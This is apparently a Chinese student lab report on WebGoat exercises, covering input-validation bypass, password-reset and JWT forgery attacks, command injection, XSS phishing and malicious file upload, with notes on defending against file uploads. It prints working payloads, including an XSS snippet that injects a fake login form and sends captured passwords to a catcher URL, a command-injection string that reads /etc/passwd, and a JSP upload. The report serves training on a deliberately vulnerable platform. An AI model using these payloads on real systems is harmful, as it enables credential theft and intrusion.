

# Web 应用漏洞攻防

## 实验目的

- 了解常见 Web 漏洞训练平台；
- 了解 常见 Web 漏洞的基本原理；
- 掌握 OWASP Top 10 及常见 Web 高危漏洞的漏洞检测、漏洞利用和漏洞修复方法；

## 实验环境

- WebGoat
- Kali 

## 实验要求

- [x] 每个实验环境完成不少于 **5** 种不同漏洞类型的漏洞利用练习；
- [x] （可选）使用不同于官方教程中的漏洞利用方法完成目标漏洞利用练习；
- [x] （可选）**最大化** 漏洞利用效果实验；
- [x] （可选）定位缺陷代码；
- [x] （可选）尝试从源代码层面修复漏洞；

# 实验准备

环境安装，以Webgoat安装为例

+ 下载Docker和Docker-compose

  

  

+ ```
  # 一次获取所有文件（包括所有子模块管理的文件）
  git clone https://github.com/c4pr1c3/ctf-games.git --recursive
  
  cd ctf-games
  
  # （可选）单独更新子模块
  git submodule init && git submodule update
  
  # 启动 webgoat 系列服务
  cd owasp/webgoat/ && docker-compose up -d
  ```

  

  

  + 在浏览器中选择对应端口号进行访问

    

    

# 实验内容
### 未验证的用户输入

实验环境：Webgoat8.0

**Client side**

+ Field Restrictions

  + 要求：绕过前端限制 

  + solve：Burp suite拦截包，将四个参数值随便修改send就好

    

+ Validation

  + 要求：发送各域值不符合正则表达式要求的请求

  + solve：Burp suite拦截包，参数值乱填一通绕过正则表达式就好

    

+ Try it yourself：
	
	+ 要求：以低一些的价格购买电视
	
	+ solve：客户端发送请求的时候篡改价格，把价格参数改低。不要相信客户端的输入，服务器收到数据后应该验证一遍
	
	  
	
+  Salary

  + 要求：越权获得经理的薪水信息

  + solve：随便选择一个员工的薪水信息，抓包，即可查看到所有员工的薪水信息

    

+ phone

  + 要求：获得code，免费购买手机

  + solve：在某个响应包中找到了泄露的code，在购买界面输入这个code即可（有种电商改错价格被薅羊毛薅到破产的感觉）

    

## 

### 脆弱的访问控制

环境：Webgoat8.0

**Authentication flaws**

+ Secure Passwords

  + 要求：输入一个安全密码

  + solve： 输入一个足够安全的密码，每次输入的密码页面会提示该密码的安全缺陷

    

+ Password reset: 

  stage2

  + 要求：实现在应用内安全的重置密码

  + solve：输入账号，点击忘记密码，登录webwolf查看邮件，即可看到新密码

    


    exp5：要修改tom的密码，需要点击tom邮箱收到的链接，solve：首先给自己的账号修改密码，发现邮箱收到了一个链接，点击链接，
    exp6

    

  stage4

  + 要求：在无锁定机制的页面正确回答验证问题以修改密码

  + solve：既然无锁定机制，可以利用Burpsuite的Intruder模块进行爆破，在payload内添加一些常见的颜色选项，暴力攻击得到tom的答案为purple

    

    

  stage5

  + 要求：随便点击几个问题了解一下其安全情况

  stage6

  + 要求：重置Tom的密码并且登录

  + slove：

    + 首先用自己的账号可控地看一下修改密码的流程是什么，点击`忘记密码`后webwolf内会收到一条重置链接，点击链接进去重置密码的界面，可以看到链接的url后有一串字母数字

      

      + 因此推测该过程是post请求生成一个重置密码的链接（由一串字母数字组成），然后将链接放在邮件的超链接内，发送给指定邮箱，因此破解方式是修改post包内的host端口为9090，这样tom用户自动点击邮箱内的超链接时重置请求会被发送到webwolf

        

      + 然后正常请求下webwolf内会收到一条请求，包含了Tom修改密码的链接，但是......我的问题是我的webwolf内死都没有收到请求，这里卡了好久，没辙了。（并且这个题看了[参考](https://www.freebuf.com/column/221947.html)才知道题目条件是tom会自动点击邮箱内的链接)

+ Authentication bypass
	
	+ 要求：绕过问题验证
	
	+ solve：有的网站在重置账户密码的时候删除问题验证字段以后提交就可以绕过问题验证，根据题目中举例内容来看解法应该是抓包，删除问题字段，但是做的时候发现不可行，于是观察到两个问题有序号，改一下序号再发，可行
		
		
	
+ JWT：
	
	stage4
	
	+ 要求：修改token以获得admin权限，重置投票
	
	+ solve：首先随便切换一个用户，点击reset，抓包，拿到其token值后在[jwt官网](https://jwt.io/#debugger-io)内解码，查看内容
	
  

  发现admin参数内容是false，因此将其改为true，但是由于头部指明了会使用HS512进行加密签名，我们也不知道密码，因此就将头部alg字段内容改为none（不加密签名），此时网站的编码方式就不可行了，于是将各字段分别用网络编码工具进行编码组合，然后复制到token域重新发送就可以了

	  
	
	  
	
	stage5
	
	+ 要求：找出题目中给出的token的加密密钥，然后发送一段新的用密钥加密的token
	
	+ solve：JWT token的结构有三部分：`header.claims.signature`，其中signature是根据header内加密方式进行加密得到的签名。因此可以通过爆破得到密钥，参考[博客](https://blog.csdn.net/XenonL/article/details/104645445)的方法：首先下载一个常用英文单词字典，运行脚本得到密钥为'victory'，然后就可以在网站中先解码题目中的token，然后修改username，用密钥生成新的JWT token
	
	  
	
	  
	
	  
	
	stage7
	
	+ 要求：在网站中买书但由Tom来付款
	
	+ solve：在题目给的write up中，作者找到的bug是认证服务器不会检查refresh token <–> access token 之间的联系，这就意味着我可以用我的refresh token来刷新其他人的access token。所以首先点击checkout，抓包，查看响应包内给出的问题是缺少“authorization”的请求头
	
	  
	
	  查看题目给的log文档，里面有一个tom的认证token
	
	  
	
	  解码一下，发现里面有个失效时间参数
	
	  
	
	  将该参数改大一些然后重新编码，复制到Authorization域，发包，成功
	
	  
	
	stage8
	
	+ 要求：帮Jerry删除Tom的帐号
	
	+ solve：首先点击delete，抓包，将包内的token解码
	
	  
	
	  发现这是jerry的token，于是将其中的jerry全部替换成tom，（感觉这里有个小bug，Jerry明明是mouse...），重新编码后发包，成功
	
	  

### Injection flaw

环境：Webgoat7.0

**命令注入**

+ 要求：向操作系统中注入一个命令

+ solve：首先随便选择一个帮助文档，点击`view`，然后抓包，在Help File参数后面添加内容`",ls "/etc/passwd`，即可向系统注入一个查看passwd文件的命令(所以说在参数驱动的站点要做好净化输入数据的工作)

  

  

### XSS

环境：Webgoat7.0

**phishing wiith XSS钓鱼**

+ 要求：实行钓鱼攻击，在页面注入html代码绘制钓鱼登陆表单，然后用JavaScript脚本来收集信息，将信息发送到指定网址

+ solve：在输入框中输入以下代码

  该段代码实现两个功能：

  + 在现有页面添加表格，需要用户来填写用户名和密码
  + 读取用户填写的信息，发送到指定地址
```
</form><script>function hack(){ XSSImage=new Image; XSSImage.src="http://localhost/WebGoat/catcher?PROPERTY=yes&user="+ document.phish.user.value + "&password=" + document.phish.pass.value + ""; alert(" Your account has been hacked. User Name = " + document.phish.user.value + "Password = " + document.phish.pass.value);} </script><form name="phish"><br><br><HR><H3>This feature requires account login:</H3 ><br><br>Enter Username:<br><input type="text" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br><input type="submit" name="login" value="login" onclick="hack()"></form><br><br><HR>
```


### 文件上传漏洞

环境：Webgoat7.0

+ 要求：上传一个文件，该文件能执行创建文件`/.extract/webapps/WebGoat/mfe_target/webgoat.txt`的功能
+ solve：因为目标是在指定路径创建一个txt文件，所以我们创建一个jsp文件，编辑

```
<HTML>

<% java.io.File file= new java.io.File("/.extract/webapps/WebGoat/mfe_target/webgoat.txt");file.createNewFile();%>

</HTML>
```
然后上传，上传后我们查看一下文件上传路径，需要访问一下才能执行


访问后返回页面刷新


+ 防御

  对用户上传文件的文件格式进行验证和过滤，可采用以下两种方法

  + 根据文件扩展名判断（能利用漏洞绕过验证机制）
  + 根据文件头部若干字节数据判断（比上一种靠谱）

  对文件上传漏洞的加固和修补：

  + 对于用户上传文件的存储目录应该禁用脚本解释引擎对该目录中文件的解释执行功能，即使攻击者上传了恶意文件也无法成功执行、利用
  + 在服务端代码使用文件后缀名白名单，避免使用黑名单的过滤方式
  + 服务端代码运行依赖环境保持更新（如 `Web Server`、`第三方文件上传组件`、`脚本运行引擎` 等）
  + 对于图片上传类场景，在不需要保存原始文件的情况下，可以对图片进行二次渲染，既可以发现和过滤掉异常格式的图片，也可以破坏可能嵌入在图片中的恶意代码完整性
  + 保存文件到服务器上的文件系统时，重写用户提供的文件名为用户不可控的由安全字符构成的文件名，例如用文件散列值来重命名上传的文件名

## 实验问题

1.https://blog.csdn.net/weixin_45396639/article/details/104379312?utm_source=appBurp Suite不能拦截localhost,127.0.0.1的问题
2.

